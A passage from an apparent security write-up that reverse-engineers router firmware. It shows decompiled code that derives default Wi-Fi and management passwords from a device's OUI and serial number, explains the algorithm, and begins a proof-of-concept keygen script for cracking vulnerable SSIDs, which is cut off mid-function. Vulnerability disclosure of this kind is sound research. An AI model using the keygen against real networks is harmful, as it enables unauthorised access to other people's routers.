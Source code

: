 ```
    log_log(2,"gen_mgntlongpw_and_wanpw",0x112,"enter\n");
    sscanf(serialnum_string,"%x",&serialnum_int);
    sprintf(secret1,"%s-ALCL%s",oui,serialnum_string);
    sprintf(secret2,"%s-01%u",oui,serialnum_int);
    md5(secret1,md5_secret1);
    md5(secret2,md5_secret2);
    strToBase32Encode._0_4_ = md5_secret1._0_4_;
    strToBase32Encode._4_4_ = md5_secret1._4_4_;
    strToBase32Encode._8_4_ = md5_secret1._8_4_;
    strToBase32Encode._12_4_ = md5_secret1._12_4_;
    strToBase32Encode[16] = md5_secret2[0];
    strToBase32Encode[17] = md5_secret2[1];
    strToBase32Encode[18] = md5_secret2[2];
    base32_probably(strToBase32Encode,0x13,wanpasswd,0x20);
    snprintf(wanpasswd_dst,0x1f,"%s",wanpasswd);
    n1 = 0;
    n2 = 0;
    i = 0;
    while (i < 8) {
      n2 = n1 >> 0x18 | n2 << 8;
      n1 = n1 << 8 | (uint)(byte)md5_secret2[i + 8];
      i = i + 1;
    }
    longpasswd = __umoddi3(n2,n1,2,0x540be400);
    snprintf(longpasswd_dst,0xb,"%010llu");
    log_log(2,"gen_mgntlongpw_and_wanpw",0x134,"succeed!\n",longpasswd);
    enter = 1;
  }
  return 0;
}
```

The actual inputs are only the OUI (available in the XML and also easily bruteforceable) and a serial number, since the other two parameters are just destinations to store the generated passwords.

The code is pretty straightforward, at first it generates two strings and computes their MD5 hashes.

Then it concatenates the first hash and the first 3 bytes of the second, and encodes all of this as base32. The result is truncated and represents the first password.

For the second password instead it generates two numbers using the bytes of the second MD5, which will be used as lower and upper bits of a 64 bit integer. The password is simply this number modulus `0x20x540be400`.

## PoC Keygen

With this information we can write a PoC script that can produce a wordlist to efficiently crack a vulnerable SSID.

```py
#!/usr/bin/env python3

import argparse, base64,  hashlib, re

def genpwd_longpasswd(oui, serialnum):
	def str2md5(string):
		m = hashlib.md5()
		m.update(string.encode("ascii"))
		return m.digest()

	#secret1 = "%s-ALCL%s" % (oui, serialnum)
	secret2 = "%s-01%u" % (oui, int(serialnum, 16))

	#md5_secret1 = str2md5(secret1)
```